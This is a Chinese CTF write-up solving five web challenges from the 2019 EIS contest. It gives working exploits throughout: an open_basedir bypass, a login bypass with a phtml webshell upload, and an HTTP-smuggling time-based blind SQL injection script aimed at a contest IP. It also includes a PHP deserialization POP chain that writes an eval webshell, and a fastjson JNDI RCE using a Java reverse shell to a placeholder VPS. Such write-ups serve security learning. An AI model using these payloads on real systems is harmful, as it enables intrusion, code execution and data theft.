

2019 EIS Web部分题解WriteUp
ezpass 1 2 3 4 5 6 7 <?php if (isset ($_GET['src' ])){ highlight_file(__FILE__ ); } eval ($_GET['cmd' ]);
直接给了个webshell，看看phpinfo中的禁用函数：

禁用了命令执行函数，并且open_basedir中限制了路径：/var/www/html:/tmp
没有禁用ini_set 和mkdir ，chdir ，file_get_contents ，scandir
先绕过open_basedir看看根目录下文件：
1 mkdir('/tmp/fuck');chdir('/tmp/fuck/');ini_set('open_basedir','..');chdir('..');chdir('..');chdi r('..');chdir('..');ini_set('open_basedir','/');var_dump(scandir('/'));
发现了/readflag执行文件，那么就是要bypass disable_funtions执行/readflag了
但是发现禁用了mail，mb_send_mail，error_log等函数，不能使用LD_PRELOAD来绕过，看了一下版本发现是php7.2，想到了最近看到的bypass方法：
https://github.com/mm0r1/exploits/blob/master/php7-gc-bypass
直接exp脚本到/tmp目录下，然后在index.php中包含执行
ezupload 源码提示：.login.php.swp
恢复后得到login.php源码：
因为是预编译，所以不存在注入点，题目也说明没有弱密码，代码的逻辑是根据输入的用户名name从数据库查询出密码password，跟post的dpasswd比较，如果相等则登陆成功。然而在不知道密码的情况下，我们可以输入一个不存在的用户名，那么查询出来的password就为空。如果没有传入dpasswd，那么判断逻辑就变成了
NULL === NULL，即登陆成功
登陆后上传，修改后缀名为phtml ，文件内容添加GIF89A ，即可上传成功，测试得到路径uploads/上传文件名
最后getshell得到flag
ezwaf 1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 <?php include "config.php" ;if (isset ($_GET['src' ])){ highlight_file(__FILE__ ); } function escape ($arr) global $mysqli; $newarr = array (); foreach ($arr as $key=>$val) { if (!is_array($val)) { $newarr[$key] = mysqli_real_escape_string($mysqli, $val); } } return $newarr; } $_GET= escape($_GET); if (isset ($_GET['name' ])){ $name = $_GET['name' ]; mysqli_query($mysqli, "select age from user where name='$name'" ); }else if (isset ($_GET['age' ])) { $age = $_GET['age' ]; mysqli_query($mysqli, "select name from user where age=$age" ); }
对get的参数有mysqli_real_escape_string的转义，另外中间服务器存在过滤，使用CL-CL 的HTTP走私绕过中间服务器的过滤
age是不需要单引号直接拼接到语句中：select name from user where age=$age
但是没有回显，只能采用延时注入，payload：
1 ?age=1 or 1 and ascii(substr(database(),1,1)) and sleep(3)
1 2 3 4 5 6 7 8 9 10 11 12 GET /?age=1%20or%201%20and%20ascii(substr((select%20flag_32122%20from%20flag_xdd),37,1))=125%20and%20sleep(3) HTTP/1.1 Host: 111.186.57.61:10601 Cache-Control: max-age=0 Upgrade-Insecure-Requests: 1 User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/78.0.3904.97 Safari/537.36 Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3 Accept-Encoding: gzip, deflate Accept-Language: zh-CN,zh;q=0.9 Cookie: PHPSESSID=6ba4cd927d6efd6ad8837460f467ac6c Connection: close Content-Length: 0 Content-Length: 0
盲注exp：
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 import socketurl = "111.186.57.61" port = 10601 flag = "" for i in range(1 ,50 ): for j in range(44 ,128 ): s = socket.socket() s.connect((url, port)) s.settimeout(3 ) data = "GET /?age=1%20or%201%20and%20ascii(substr((select%20flag_32122%20from%20flag_xdd)," +str(i)+",1))=" +str(j)+"%20and%20sleep(3) HTTP/1.1\r\nHost:111.186.57.61:10601\r\nConnection:close\r\nContent-Length:0\r\nContent-Length:0\r\n\r\n" s.send(data) try : s.recv(1024 ) s.close() except : flag = flag + chr(j) print flag s.close() break
盲注结果：
1 2 3 表：flag_xdd 列：flag_32122 flag{bypass_modsecurity_a202e614489c}
关于绕过modsecurity 还有一种方法，参考：https://www.anquanke.com/post/id/169738#h2-1
使用头部字段Transfer-Encoding:chunked
数据部分使用两个换行
ezpop 1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 41 42 43 44 45 46 47 48 49 50 51 52 53 54 55 56 57 58 59 60 61 62 63 64 65 66 67 68 69 70 71 72 73 74 75 76 77 78 79 80 81 82 83 84 85 86 87 88 89 90 91 92 93 94 95 96 97 98 99 100 101 102 103 104 105 106 107 108 109 110 111 112 113 114 115 116 117 118 119 120 121 122 123 124 125 126 127 128 129 130 131 <?php error_reporting(0 ); class A protected $store; protected $key; protected $expire; public function __construct ($store, $key = 'flysystem' , $expire = null) { $this ->key = $key; $this ->store = $store; $this ->expire = $expire; } public function cleanContents (array $contents) { $cachedProperties = array_flip([ 'path' , 'dirname' , 'basename' , 'extension' , 'filename' , 'size' , 'mimetype' , 'visibility' , 'timestamp' , 'type' , ]); foreach ($contents as $path => $object) { if (is_array($object)) { $contents[$path] = array_intersect_key($object, $cachedProperties); } } return $contents; } public function getForStorage () { $cleaned = $this ->cleanContents($this ->cache); return json_encode([$cleaned, $this ->complete]); } public function save () { $contents = $this ->getForStorage(); $this ->store->set($this ->key, $contents, $this ->expire); } public function __destruct () { if (! $this ->autosave) { $this ->save(); } } } class B protected function getExpireTime ($expire) : int { return (int) $expire; } public function getCacheKey (string $name) : string { return $this ->options['prefix' ] . $name; } protected function serialize ($data) : string { if (is_numeric($data)) { return (string) $data; } $serialize = $this ->options['serialize' ]; return $serialize($data); } public function set ($name, $value, $expire = null) : bool { $this ->writeTimes++; if (is_null($expire)) { $expire = $this ->options['expire' ]; } $expire = $this ->getExpireTime($expire); $filename = $this ->getCacheKey($name); $dir = dirname($filename); if (!is_dir($dir)) { try { mkdir($dir, 0755 , true ); } catch (\Exception $e) { } } $data = $this ->serialize($value); if ($this ->options['data_compress' ] && function_exists('gzcompress' )) { $data = gzcompress($data, 3 ); } $data = "<?php\n//" . sprintf('%012d' , $expire) . "\n exit();?>\n" . $data; $result = file_put_contents($filename, $data); if ($result) { return true ; } return false ; } } if (isset ($_GET['src' ])){ highlight_file(__FILE__ ); } $dir = "uploads/" ; if (!is_dir($dir)){ mkdir($dir); } unserialize($_GET["data" ]);
构造pop链，链的终点执行的很明显是B::set的$result = file_put_contents($filename, $data);
链的起点是A::__destruct
其实很多方法都是无用的，我们最终只需要关注文件名参数$filename和文件内容参数$data的来源
（1）$filename来源：
1 2 3 4 5 6 7 $filename = $this ->getCacheKey($name); => B类 public function getCacheKey (string $name) : string { return $this ->options['prefix' ] . $name; } => A类 $this ->store->set($this ->key, $contents, $this ->expire);
我们只需要通过反序列化构造A类的参数$this->key即可
（2）$data来源：
首先通过A::getForStorage的代码：
1 2 3 4 5 public function getForStorage () $cleaned = $this ->cleanContents($this ->cache); return json_encode([$cleaned, $this ->complete]); }
A::cleanContents其实没什么作用，我们只需要保证$this->cache为一个数组即可，然后通过json_encode函数处理后，传入类B，执行：
1 $data = $this ->serialize($value);
首先是B::serialize，
1 2 3 4 5 6 7 8 protected function serialize ($data) : string if (is_numeric($data)) { return (string) $data; } $serialize = $this ->options['serialize' ]; return $serialize($data); }
可以注意到我们可以通过反序列化对$this->options['serialize']赋值然后执行任意$serialize方法来处理$data，即前面A类中通过json_encode加密后的字符串。但是要注意，这里限制了方法返回的类型必须为string
最后执行：
1 2 3 4 if ($this ->options['data_compress' ] && function_exists('gzcompress' )) { $data = gzcompress($data, 3 ); } $data = "<?php\n//" . sprintf('%012d' , $expire) . "\n exit();?>\n" . $data;
虽然gzcompress处理完data会出现乱码，但是我们只需要不执行if语句，即$this->options['data_compress'] == NULL即可
也就是说，最后处理完的data拼接到了如下代码写入文件中：
比较难处理的是死亡exit()函数，不过这里是通过file_put_contents写文件的，所以一下子就想到了p神的利用php://filter伪协议绕过死亡exit的方法
参考：https://www.leavesongs.com/PENETRATION/php-filter-magic.html
我们只需要注意base64解码以4个字符一组就行
最后编写POC如下：
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 <?php class A protected $store; protected $key; protected $expire; public $cache; public $complete; public $auto_save; public function __construct () { $this ->auto_save = 0 ; $this ->cache = array ('aaaPD9waHAgZXZhbCgkX0dFVFsnY21kJ10pOz8+' ); $this ->complete = 1 ; $this ->store = new B(); $this ->key = "php://filter/write=convert.base64-decode/resource=uploads/somnus.php" ; $this ->expire = 1 ; } } class B public $options; public function __construct () { $this ->options = array ("prefix" =>"" ,"serialize" =>"trim" ); } } $a = new A(); echo urlencode(serialize($a));
这里我用的serialize方法是trim，它可以直接返回原本的字符串，然后data中包含了base64加密的实际内容：
1 PD9waHAgZXZhbCgkX0dFVFsnY21kJ10pOz8+ //<?php eval($_GET['cmd']);?>
前面添加3个aaa，是因为"<?php\n//" . sprintf('%012d', $expire) . "\n exit();?>\n"计算后的长度为21，添加3个凑成4的倍数24，这样才能成功base64解码
最后的flag
ezjava（赛后复现） fastjson-1.2.47-RCE复现，参考：https://github.com/CaijiOrz/fastjson-1.2.47-RCE
准备一个vps（jdk版本1.8），将marshalsec-0.0.3-SNAPSHOT-all.jar 文件和Exploit.java 放在同一目录下 。
修改Exploit.java 文件中反弹shell的ip为自己vps的ip，端口设为8888：
1 2 3 4 5 6 7 8 9 10 11 12 public class Exploit public Exploit () try { Runtime.getRuntime().exec("/bin/bash -c $@|bash 0 echo bash -i >&/dev/tcp/yourvps_ip/8888 0>&1" ); }catch (Exception e){ e.printStackTrace(); } } public static void main (String[] argv) Exploit e = new Exploit(); } }
然后编译Exploit.java ：javac Exploit.java，此时目录下应该有三个文件：
1 2 3 marshalsec-0.0.3-SNAPSHOT-all.jar Exploit.java Exploit.class
（1）在当前目录下启用LDAP服务器：
1 $ java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer http://yourvps_ip:8080/#Exploit
（2）在当前目录下运行Web服务：
1 $ python3 -m http.server 8080
（3）vps上监听8888端口最后接收shell：
（4）在源码的WEB.xml 找到漏洞路径：Index/，然后发送payload：
1 {"a":{"@type":"java.lang.Class","val":"com.sun.rowset.JdbcRowSetImpl"},"b":{"@type":"com.sun.rowset.JdbcRowSetImpl","dataSourceName":"ldap://yourvps_ip:1389/EvilObject","autoCommit":true}}}
接下来如果没有任何报错的话，LDAP将会把请求Redirect到Web服务，Fastjson将会下载Exploit.class ，并解析运行，你的LDAP服务和Web服务都会收到请求记录，如果没有问题，你的nc也会收到反弹回来的SHELL
最后的实现效果：
（2）WEB：
（3）nc：